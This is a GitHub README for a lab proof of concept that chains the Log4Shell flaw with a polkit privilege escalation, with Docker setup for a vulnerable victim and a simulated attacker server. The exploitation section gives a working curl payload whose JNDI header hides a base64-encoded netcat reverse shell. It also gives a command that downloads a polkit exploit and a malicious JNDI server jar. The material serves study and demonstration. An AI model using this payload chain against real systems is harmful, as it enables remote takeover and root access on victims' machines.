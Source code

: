 #  log4j CVE-2021-44228 + polkit CVE-2021-4034
Vulnerable instance for the log4j apache exploit and privilege escalation using polkit
- The vulnable spring-boot-application.jar was extracted from [this docker image](https://hub.docker.com/r/andylibrian/log4shell-vulnerable-app/tags)
- The malicious JNDI server was downloaded from [here](https://log4j-knox.s3.amazonaws.com/JNDIExploit-1.2-SNAPSHOT.jar) and referenced in [this article](https://github.com/kubearmor/log4j-CVE-2021-44228).

## PoC Video
<follows-here>

## creating the vulnerable instances

### log4j-polkit-vuln
The vulnerable instance will be running and listening for connections on port 80 (exposed to the host machine) on completion of the steps below. The vulnerable part for the log4j exploit is the X-Api-Version header that is sent to the server.

Docker: [log4j-polkit-vulnerable-server](https://hub.docker.com/r/0xalwayslucky/log4j-polkit-vulnerable-server)

steps to pull & run the vulnerable docker image:
```bash
docker pull 0xalwayslucky/log4j-polkit-vulnerable-server
docker run -p 80:8080 0xalwayslucky/log4j-polkit-vulnerable-server
```

steps to create a vulnerable instance for log4j + polkit manually:
> Note: the Dockerfiles require certain versions of the vulnerable applications to be present within the ubuntu repositories. If these get updated and/or removed on any given time the docker image will fail to build. To solve this an image will be uploaded to the docker hub and linked here.
```bash
git clone https://github.com/0xalwayslucky/log4j-polkit-poc
cd log4j-polkit-vuln
docker build -t log4j-polkit-vulnerable-server .
docker run -p 80:8080 --hostname victim log4j-polkit-vulnerable-server
```

### attackserver
This will simulate the attackers machine, in this case present within the same network (due to easy communication between docker containers), but the exploit works no matter where this attack server is situated (only condition is that it is accessible by the victim). The malicious JNDI server will be hosted on here and create a malicious class to execute arbitrary commands on the victims machine.

steps to create a simulated attacker machine:
```bash
git clone https://github.com/0xalwayslucky/log4j-polkit-poc
cd attackserver
docker build -t attackserver .
docker run -it --hostname attackserver attackserver /bin/bash
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i <ip> -p 8888 &  # in the docker container
```

## exploitation
commands from the poc-video
> Note: IP address of the attackserver might vary
```
# Log4j exploit
curl http://localhost -H 'X-Api-Version: ${jndi:ldap://172.17.0.3:1389/Basic/Command/Base64/bmMgMTcyLjE3LjAuMyA0NDQ0IC1lIC9iaW4vYmFzaA==}'

# Polkit exploit
wget https://raw.githubusercontent.com/afwu/CVE-2021-4035/main/cve-2021-4034-poc.c

```

